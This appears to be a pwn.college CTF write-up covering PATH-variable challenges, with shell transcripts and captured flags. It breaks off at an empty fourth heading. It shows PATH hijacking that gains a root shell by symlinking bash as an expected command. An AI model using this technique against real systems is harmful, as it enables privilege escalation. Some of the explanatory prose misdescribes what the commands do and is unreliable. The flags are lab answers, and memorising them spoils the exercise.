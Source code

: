 **Pondering Path**

***1.The PATH variable***

In this challenge, there is a special shell variable, called PATH, that stores a bunch of directory paths in which the shell will search for programs corresponding to commands. On executing ```PATH=""``` command, we denote nothing to PATH which deletes the flag using rm command. Following this, we can run the command ```/challenge/run``` to get the flag. 

```
Connected!
hacker@path~the-path-variable:~$ PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{Q0suH2tz-g0W3BcjEG1HQfrFUMk.dZzNwUDLwQDO0czW}
```

***2.Setting Path***

In this challenge, we first had to overwrite ```/challenge/more_commands/``` in the PATH. Then on running ```/challenge/run``` win was invoked which caught the flag.

```
Connected!
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
/challenge/run: line 4: win: command not found
It looks like that did not work... Did you set PATH correctly?
hacker@path~setting-path:~$ PATH=/challenge/more_commands/
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{cAJnwYBMN_6o--7eFELlwfwJjy8.dVzNyUDLwQDO0czW}
```

***3.Adding Commands***

As we have learned the echo command in Linux is a built-in command that allows users to display lines of text or strings that are passed as arguments. It is commonly used in shell scripts and batch files to output status text to the screen or a file. In this challenge, we had to overwrite PATH with the directory having win. On doing that, when ```/challenge/run``` command is executed win is invoked. Then we used the echo command on PATH. Further, I created an empty file called win. Then on running ```cat /flag```, I got the flag.

```
Connected!
hacker@path~adding-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ ln -s /usr/bin/bash ./win
hacker@path~adding-commands:~$ PATH=/home/hacker:$PATH
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
root@path~adding-commands:~# echo $PATH
/home/hacker:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
root@path~adding-commands:~# touch win
root@path~adding-commands:~# cat /flag
pwn.college{00-uQ0LjDyL28VFunAAJmvsKasY.dZzNyUDLwQDO0czW}
```

***4.Hijacking Commands***

```

